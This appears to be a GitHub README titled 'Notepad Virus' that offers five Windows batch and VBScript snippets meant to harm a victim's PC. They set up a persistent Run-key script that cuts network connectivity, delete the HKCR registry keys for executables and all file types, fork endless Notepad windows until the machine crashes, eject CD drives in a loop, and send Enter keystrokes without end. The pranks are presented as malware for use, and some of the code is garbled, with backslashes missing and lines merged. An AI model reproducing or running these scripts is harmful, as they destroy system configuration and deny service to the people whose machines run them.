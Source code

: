 

# Notepad Virus

## 🦠Top Virus Making Commands From Notepad🦠


### 🟣1. Disable Internet Permanently :-
```bash  
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
### 🃏Action :-  This will disable the internet connectivity permanently.



### 🟣2.  Delete Key Registry Files :-

```bash
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your PC has been crashed.Your Dad.
GOTO MESSAGE
```
### 🃏Action :- This will delete key registry files, then loops a message

## 🟣3.Endless Notepads :-
```bash 
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```
### 🃏Action :- This will pop up endless notepads until the computer freezes and crashes


### 🟣4. Popping Cd Drive :- 
```bash
Set oWMP = CreateObject(”WMPlayer.OCX.7″)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

### 🃏Action :- This will make the CD drives constantly pop out


## 🟣 5. Endless Enter :-

```bash 
Set wshShell = wscript.CreateObject(”WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```
